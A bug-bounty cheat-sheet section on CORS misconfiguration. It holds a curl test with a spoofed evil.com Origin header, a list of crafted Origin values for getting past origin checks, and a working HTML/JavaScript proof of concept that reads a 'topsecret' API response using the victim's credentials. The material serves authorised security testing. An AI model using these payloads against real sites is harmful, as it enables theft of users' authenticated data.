 ## Cross Origin Resource Sharing (CORS)

Testing:
`curl --head -s 'http://example.com/api/v1/secret' -H 'Origin: http://evil.com'`

Check to see what the server responds with in the `Access-Control-Allow-Origin:` (if anything) and if so, check if `Access-Control-Allow-Credentials: true` is present.

If it is trusting arbitrary origins **with** allow-credentials set to true, then host this HTML as a proof of concept.

## Some method to bypass CORS	
1. `Origin:null`
2. `Origin:attacker.com`
3. `Origin:attacker.target.com`
4. `Origin:attackertarget.com`
5. `Origin:sub.attackertarget.com`
6. `Origin:attacker.com and then change the method Get to post/Post to Get`
7. `Origin:sub.attacker target.com`
8. `Origin:sub.attacker%target.com`
9. `Origin:attacker.com/target.com`

```
<!DOCTYPE html>
<html>
<head><title>BugBounty CheatSheet</title></head>
<body>
<center>
<h2>CORs POC</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://example.com/api/v1/topsecret", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
```
